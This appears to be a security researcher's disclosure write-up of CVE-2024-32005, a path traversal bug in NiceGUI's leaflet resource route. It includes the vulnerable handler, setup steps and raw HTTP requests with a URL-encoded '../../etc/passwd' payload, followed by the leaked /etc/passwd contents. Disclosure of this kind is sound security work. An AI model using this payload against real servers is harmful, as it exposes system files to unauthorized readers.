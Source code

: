 ```yaml
---
layout: post
title:  "CVE-2024-32005: Local File Inclusion in NiceGUI leaflet component"
date:  2024-04-10 10:31:06 +0800
categories: file-overwrite
---
```


## Name

> NiceUI: Local File Inclusion in NiceUI leaflet component

## Weakness

> CWE-22: Path Traversal

## Severity

> High (8.8)

## CVE

> [CVE-2024-32005: Local File Inclusion in NiceGUI leaflet component](https://www.cve.org/CVERecord?id=CVE-2024-32005)

## Description

A local file inclusion is present in the NiceUI leaflet component when requesting resource files under the `/_nicegui/{__version__}/resources/{key}/{path:path}` route.

## Proof of Concept

In [route](https://github.com/zauberzeug/nicegui/blob/eac5a5faa9fbd8823a6b76784a76fce618fd7afc/nicegui/nicegui.py#L98) `/_nicegui/{__version__}/resources/{key}/{path:path}` is used for [serving CSS and JS resources locally](https://github.com/zauberzeug/nicegui/commit/b465af3bb7a825c89ca6562e5eb7ebfeee5bb589). The `path` parameter in url is not sanitized before appended to base path, an attacker can use `..` to escape base directory and locate any file on system which will be sent back to the attacker, causing local file inclusion issue.

```
@app.get(f'/_nicegui/{__version__}' + '/resources/{key}/{path:path}')
def _get_resource(key: str, path: str) -> FileResponse:
    if key in resources:
        filepath = resources[key].path / path
        if filepath.exists():
            headers = {'Cache-Control': 'public, max-age=3600'}
            media_type, _ = mimetypes.guess_type(filepath)
            return FileResponse(filepath, media_type=media_type, headers=headers)
    raise HTTPException(status_code=404, detail=f'resource "{key}" not found')
```

However, the `resources` is only [initialized](https://github.com/zauberzeug/nicegui/blob/eac5a5faa9fbd8823a6b76784a76fce618fd7afc/nicegui/elements/leaflet.py#L40) by `ui.leaflet` component. To exploit the bug, a developer should use `leaflet` component in web pages so that the route is activated. Consider following [code snippet](https://nicegui.io/documentation/leaflet#leaflet_map) from official document.

Firstly, install nicegui using `python pip`:

```
pip install nicegui
```
Then, save following code to `main.py`
```
from nicegui import ui

m = ui.leaflet(center=(51.505, -0.09))
ui.label().bind_text_from(m, 'center', lambda center: f'Center: {center[0]:.3f}, {center[1]:.3f}')
ui.label().bind_text_from(m, 'zoom', lambda zoom: f'Zoom: {zoom}')

with ui.grid(columns=2):
    ui.button('London', on_click=lambda: m.set_center((51.505, -0.090)))
    ui.button('Berlin', on_click=lambda: m.set_center((52.520, 13.405)))
    ui.button(icon='zoom_in', on_click=lambda: m.set_zoom(m.zoom + 1))
    ui.button(icon='zoom_out', on_click=lambda: m.set_zoom(m.zoom - 1))

ui.run()
```
Run the application, it will listen on `http://127.0.0.1:8080` by default.

```
python main.py
```
Open the webpage in browser and intecept requests using burp suite or chrome devtools. We can capture following request:

```
GET http://10.15.0.171:8080/_nicegui/1.4.20/resources/763203f93f18a3f1f5d14f74197580e4/leaflet/leaflet.js HTTP/1.1
Accept: */*
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7,ja-JP;q=0.6,ja;q=0.5
Cache-Control: no-cache
Cookie: 
Pragma: no-cache
Referer: http://10.15.0.171:8080/
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.0.0 Safari/537.36
Postman-Token: 73930b8b-6cc7-4511-aff9-ff25d835c300
Host: 10.15.0.171:8080
Accept-Encoding: gzip, deflate
Connection: close
```
Modify the request by change `leaflet/leaflet.js` part to `%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%65%74%63%2f%70%61%73%73%77%64` which is `../../../../../etc/passwd` url-encoded content.

```
GET http://10.15.0.171:8080/_nicegui/1.4.20/resources/763203f93f18a3f1f5d14f74197580e4/%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%65%74%63%2f%70%61%73%73%77%64 HTTP/1.1
Accept: */*
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7,ja-JP;q=0.6,ja;q=0.5
Cache-Control: no-cache
Cookie: _xsrf=2|87674a0e|961e2a9f73992956aae527a8f55167fb|1706518977; _gitlab_session=64bf3e7143f852d8e3646970f8c7b3df; fakesession=hello
Pragma: no-cache
Referer: http://10.15.0.171:8080/
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.0.0 Safari/537.36
Postman-Token: 73930b8b-6cc7-4511-aff9-ff25d835c300
Host: 10.15.0.171:8080
Accept-Encoding: gzip, deflate
Connection: close
```

Or just open link: `http://10.15.0.171:8080/_nicegui/1.4.20/resources/763203f93f18a3f1f5d14f74197580e4/%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%65%74%63%2f%70%61%73%73%77%64` in browser(change ip and port to your server).

The output is the contents of the `/etc/passwd` file:

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
...
```

![niceui](/assets/cve/niceui.png)

## Impact

Any file on the backend filesystem can be read by an attacker with access to the NiceUI leaflet website.



## Reference
[https://github.com/zauberzeug/nicegui/issues/2870](https://github.com/zauberzeug/nicegui/issues/2870)
[https://www.cve.org/CVERecord?id=CVE-2024-32005](https://www.cve.org/CVERecord?id=CVE-2024-32005)
[https://nvd.nist.gov/vuln/detail/CVE-2024-32005](https://nvd.nist.gov/vuln/detail/CVE-2024-32005)
[https://github.com/zauberzeug/nicegui/security/advisories/GHSA-mwc7-64wg-pgvj](https://github.com/zauberzeug/nicegui/security/advisories/GHSA-mwc7-64wg-pgvj)
[https://huntr.com/bounties/29ec621a-bd69-4225-ab0f-5bb8a1d10c67](https://huntr.com/bounties/29ec621a-bd69-4225-ab0f-5bb8a1d10c67)

## Occurrences

[https://github.com/zauberzeug/nicegui/blob/eac5a5faa9fbd8823a6b76784a76fce618fd7afc/nicegui/nicegui.py#L98](https://github.com/zauberzeug/nicegui/blob/eac5a5faa9fbd8823a6b76784a76fce618fd7afc/nicegui/nicegui.py#L98)
